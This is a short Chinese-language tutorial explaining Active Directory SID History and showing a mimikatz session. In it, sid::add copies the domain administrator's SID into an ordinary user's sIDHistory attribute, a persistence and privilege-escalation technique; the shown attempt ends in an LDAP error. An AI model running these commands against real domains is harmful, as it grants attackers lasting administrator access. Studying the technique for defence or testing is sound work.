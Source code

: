 每个账户都有独一无二的SID标识符，活动目标中对象的objectSid属性值就是SID。

如果将A域的用户迁移到B域，在B域的SID随之改变，导致迁移后的用户无法访问原来的资源。而SID History是为了域迁移场景设置的属性，他使得账户原本访问权限能有效克隆到另一个账号。在用户访问资源的时候，SID和SID History都会被添加到用户的访问令牌中。

# 一、SID History攻击
普通域用户: sec\hack

hack用户并非域管，所以无权添加用户或添加域管用户组的用户

当我们获得域管权限时。可以把域管administrator的SID添加到hack的SID HISTORY属性里

```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sid::add /sam:hack /new:administrator

CN=hack,CN=Users,DC=sec,DC=local
  name: hack
  objectGUID: {ffcf369c-f642-41b9-a752-202e8fe174b1}
  objectSid: S-1-5-21-2066713137-2133816201-3751750268-1103
  sAMAccountName: hack

  * Will try to add 'sIDHistory' this new SID:'S-1-5-21-2066713137-2133816201-3751750268-500': ERROR kuhl_m_sid_add ; ldap_modify_s 0x32 (50)

mimikatz #
```

注：Windows Server 2016之前的版本才能成功